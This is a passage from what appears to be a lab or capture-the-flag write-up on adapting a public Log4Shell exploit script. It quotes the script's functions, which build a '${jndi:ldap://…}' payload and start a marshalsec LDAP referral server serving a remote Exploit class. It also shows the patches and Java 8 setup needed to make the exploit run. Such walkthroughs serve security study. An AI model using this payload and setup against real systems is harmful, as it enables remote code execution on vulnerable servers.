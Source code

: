 There are three things we need to fix before this exploit can be used. The first is that its web server listens on `localhost`. we can fix this by patching the line `httpd = HTTPServer(('localhost', int(webport)), SimpleHTTPRequestHandler)` in the `payload` function to `httpd = HTTPServer((userip, int(webport)), SimpleHTTPRequestHandler)`. The second is that the exploit requires Java 8 to be present in the current working directory. As can be seen in the functions `checkJavaAvailible` and `createLdapServer`. 

{% highlight none linenos %}
def @@@checkJavaAvailible@@@():
        javaver = subprocess.call(['@@@./jdk1.8.0_20/bin/java@@@', '-version'], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
        if(javaver != 0):
                print(Fore.RED + '[-] Java is not installed inside the repository ')
                sys.exit()

def @@@createLdapServer@@@(userip, lport):
        sendme = ("${jndi:ldap://%s:1389/a}") % (userip)
        print(Fore.GREEN +"[+] Send me: "+sendme+"\n")

        subprocess.run(["@@@./jdk1.8.0_20/bin/javac@@@", "Exploit.java"])

        url = "http://{}:{}/#Exploit".format(userip, lport)
        subprocess.run(["@@@./jdk1.8.0_20/bin/java@@@", "-cp",
        "target/marshalsec-0.0.3-SNAPSHOT-all.jar", "marshalsec.jndi.LDAPRefServer", url])
{% endhighlight %}

To make Java 8 available to the exploit, we first create an account at [https://www.oracle.com](https://www.oracle.com) and then navigate to [https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html). Then we download Java 8 by clicking the `jdk-8u202-linux-x64.tar.gz` link. Note that there is no link for `jdk-8u20`. However, `jdk-8u202` is close enough.

![java8](/assets/{{ imgDir }}/java8.png)

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@mv ~/Downloads/jdk-8u202-linux-x64.tar.gz .@@                                         
  
┌──(kali㉿kali)-[/tmp/x]
└─$ @@tar -xzf jdk-8u202-linux-x64.tar.gz@@

┌──(kali㉿kali)-[/tmp/x]
└─$ @@mv jdk1.8.0_202 jdk1.8.0_20@@

┌──(kali㉿kali)-[/tmp/x]
└─$ @@ls@@
@@@exploit.py@@@  @@@jdk1.8.0_20@@@  jdk-8u202-linux-x64.tar.gz
{% endhighlight %}

Once downloaded, we can uncompress the `tar.gz` file. Then, we ensure that the resulting folder is placed in the same directory as the exploit and is named appropriately.

{% highlight none linenos %}
def @@@createLdapServer@@@(userip, lport):
        sendme = ("${jndi:ldap://%s:1389/a}") % (userip)
        print(Fore.GREEN +"[+] Send me: "+sendme+"\n")

        subprocess.run(["./jdk1.8.0_20/bin/javac", "Exploit.java"])

        url = "http://{}:{}/#Exploit".format(userip, lport)
        subprocess.run(["./jdk1.8.0_20/bin/java", "-cp",
        "target/@@@marshalsec-0.0.3-SNAPSHOT-all.jar@@@", "marshalsec.jndi.LDAPRefServer", url])
{% endhighlight %}
